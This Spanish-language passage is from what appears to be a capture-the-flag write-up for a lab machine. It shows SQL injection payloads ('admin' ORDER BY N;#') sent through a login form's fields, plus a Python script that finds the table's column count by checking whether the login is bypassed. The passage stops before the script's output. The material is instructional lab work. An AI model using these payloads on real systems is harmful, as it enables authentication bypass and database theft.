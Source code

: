 Lo primero será ver contra que servicio **SQL** estamos y lo segundo contra que tipo de **SQLi** nos encontramos, ya que puede ser **error-based**, **union-based** o **blind-based** principalmente:

Jugando con el **error-based** no logramos ver "errores" al ejecutar sentencias, así que lo descartamos.

Para validar si puede ser **union-based** lo mejor es intentar descubrir cuantas columnas tiene la tabla actual donde se están haciendo las consultas, para hacer esto jugamos con la instrucción [ORDER BY](https://www.w3schools.com/sql/sql_orderby.asp). Con ella lograremos ordenar las columnas ya sea de manera descendente o ascendente. 

El punto es que si intentamos ordenar las columnas con un numero mayor al de las propias columnas que existan en la tabla (por ejemplo, una tabla tiene 5 columnas, si intentamos ordenarla como si tuviera 6, daría error), la idea es buscar un numero que no nos dé error (en este caso lo sabríamos cuando nos deje logearnos (si es que nos deja)), si lo encontramos, primero confirmamos el número de columnas de la tabla y segundo el tipo de **SQL injection**: `union-based`...

Su uso es sencillo:

```sql
ORDER BY <numero_de_columnas>
```

Adecuándolo a nuestro payload sería algo así:

```sql
uname=admin' ORDER BY <numero_de_columnas>;#
password=admin' ORDER BY <numero_de_columnas>;#
```

Rápidamente, armamos un script (o con `cURL` o como quieran, yo usare `Python`) para validar con 100 columnas:

```py
#!/usr/bin/python3

import requests

URL = "http://10.10.11.101/administrative"

for column_num in range (1,101):
    payload = f"admin' ORDER BY {column_num};#"

    r = requests.post(URL, data={"uname":payload,"password":payload})

    # Vimos que antes del dashboard habia un redirect y nos mostraba un mensaje, tomemos parte de ese mensaje para validar la respuesta esperada.
    # Si la respuesta lo contiene, sabemos que ese numero de columnas nos permitio el bypass, cuando deje de aparecer el mensaje, sabemos que ese num no es valido.
    if "Redirecting you to the dashboard" not in r.text:
        print(f"Este es el numero de columnas: {column_num - 1}, desde la {column_num} no permite el bypass.")
        break
```

Si lo ejecutamos nos muestra esto:
